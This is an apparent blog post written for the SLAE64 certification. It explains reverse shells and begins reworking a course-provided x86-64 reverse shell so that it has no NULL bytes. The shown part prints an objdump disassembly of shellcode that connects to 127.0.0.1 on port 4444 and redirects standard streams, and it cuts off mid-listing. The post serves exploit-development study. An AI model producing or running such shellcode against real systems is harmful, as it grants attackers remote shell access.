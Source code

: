 ```yaml
---
layout: post
title: Null-Free Reverse Shell
date: 2021-01-19 20:30:00
categories: posts
comments: false
en: true
---
```


These series of posts starting with the prefix "SLAE64 - Assignment" will be created in order to fulfill the requirements of the SLAE64 certification.

A Reverse shell is a form of malware which grants remote access to a system through a shell. However, it differentiates from its peer the Bind Shell, arranging a specific 
connection on a trivial address, instead of binding the compromised device into a certain port. Furthermore, after the connection is established, a shell is executed, granting 
interaction to the attacker.

The first assignment from the seven is divided in two sections:

+ A: Requires the creation of a Reverse Shell with password protection through the Assembly language, and converting such into shellcode. 
+ B: Requires the alteration of the provided Reverse Shell during the course, in order that it no longer possesses any form of NULL bytes (00). 

Due to the reason that in the [previous](https://whitecr0wz.github.io/posts/SLAE64-Reverse-Password/) post the first section of the exercise was tackled, this post will be focused 
towards the secondary task.

Let's analyze the Reverse Shell given during the course:

```term
hitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B/og$ objdump -D 1.o -M intel 

1.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   b8 29 00 00 00          mov    eax,0x29
   5:   bf 02 00 00 00          mov    edi,0x2
   a:   be 01 00 00 00          mov    esi,0x1
   f:   ba 00 00 00 00          mov    edx,0x0
  14:   0f 05                   syscall 
  16:   48 89 c7                mov    rdi,rax
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   c7 44 24 fc 7f 00 00    mov    DWORD PTR [rsp-0x4],0x100007f
  24:   01 
  25:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
  2c:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
  33:   48 83 ec 08             sub    rsp,0x8
  37:   b8 2a 00 00 00          mov    eax,0x2a
  3c:   48 89 e6                mov    rsi,rsp
  3f:   ba 10 00 00 00          mov    edx,0x10
  44:   0f 05                   syscall 
  46:   b8 21 00 00 00          mov    eax,0x21
  4b:   be 00 00 00 00          mov    esi,0x0
  50:   0f 05                   syscall 
  52:   b8 21 00 00 00          mov    eax,0x21
  57:   be 01 00 00 00          mov    esi,0x1
  5c:   0f 05                   syscall 
  5e:   b8 21 00 00 00          mov    eax,0x21
  63:   be 02 00 00 00          mov    esi,0x2
```